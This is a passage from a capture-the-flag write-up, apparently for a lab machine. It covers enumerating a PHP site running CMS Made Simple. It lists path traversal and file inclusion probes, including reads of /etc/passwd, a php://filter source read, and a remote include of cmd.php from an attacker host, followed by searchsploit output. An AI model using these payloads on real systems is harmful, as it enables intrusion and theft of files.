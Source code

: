 So the site is powered by PHP, and looks like it includes a page as an HTTP parameter. Started trying a few go-to PHP file inclusion and path traversal checks. Didn't want to push the server too much, as I was worried about getting banned with too many 404 errors. A few of the URLs I tested were:

```none
/writeup/index.php?page=../../../etc/passwd
/writeup/index.php?page=../../../../../etc/passwd
/writeup/index.php?page=http://10.10.14.127:8000/cmd.php
/writeup/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

None of these worked, and was getting more and more nervous about getting banned! Can't wait to see how the banning works... later. Anyway, decided to stop while I was still ahead, and started enumerating for more information that might be useful.

After a while, I discovered that the pages under `writeup` are generated using a CMS. I thought it was a joke at first, but this CMS seems to be a thing.

![Writeup CMS leaked](screenshots/80_writeup_cms.png)

This also seemed to match a not-quite-so-obvious hint. The home page had the footer message of: `Page is hand-crafted with vi.` and the `writeup` pages had the message: `Pages are hand-crafted with vim. NOT.`.

Started doing some research and discovered the [CMS Made Simple project home page](https://www.cmsmadesimple.org/) and the [project SVN repo](http://viewsvn.cmsmadesimple.org/listing.php?repname=cmsmadesimple&). This is quite a big project - and I found it interesting that I have never heard of it. Since I had no version information, I tried to find a [changelog](http://dev.cmsmadesimple.org/project/files/6) to determine what version I might have on the target. The only help I get from the website is a copyright notice for the CMS ending in 2019.

The last release, in late 2019 (December) was `Version 2.2.13-0` on 2019-12-04. And the first release in early 2019 (January) was `Version 2.2.9-0` on 2019-01-21. Using this info looks like we are dealing with version 2.2, with a potential minor release difference. I looked at Exploit DB to try to find an exploit in this time frame.

```none
└─$ searchsploit CMS Made Simple | grep -v Authenticated | grep -v Cross-Site
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit | php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                           | php/webapps/26217.html
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                            | php/webapps/29941.txt
```